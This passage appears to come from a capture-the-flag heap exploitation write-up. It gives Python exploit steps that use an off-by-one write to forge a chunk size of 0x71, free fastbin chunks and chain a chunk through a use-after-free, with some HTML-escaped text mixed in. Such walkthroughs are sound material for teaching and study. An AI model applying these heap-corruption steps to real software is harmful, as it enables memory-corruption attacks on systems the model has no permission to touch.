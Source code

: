 ```python

edit(1,fake)

info("fake")

```



Release `B` and assign the same size again to `B`, where `B+0x10` and `B+0x18` have the address of `main_arean`. Assign `3` `fastbin` and `off by one` to modify `B-&gt;size = 0x71`


```

free(1)

create(0xc8,1)



create(0x65,3)  # b

create(0x65,15)

create(0x65,18)



over = "A"*0x18  # off by one

over += "\x71"  # set chunk  1's size --> 0x71

edit(0,over)

info("利用 off by one ,  chunk  1's size --> 0x71")

```



Generate two `fastbin`s, then use `uaf` to write some addresses and chain `B` to `fastbin`


 



```py

free(2)

free(3)

Info(&quot;Create two 0x70 fastbin&quot;)
heap_po = "\x20"

edit (3, heap_po)
Info(&quot;Link chunk&#39;1 into fastbin&quot;)


```
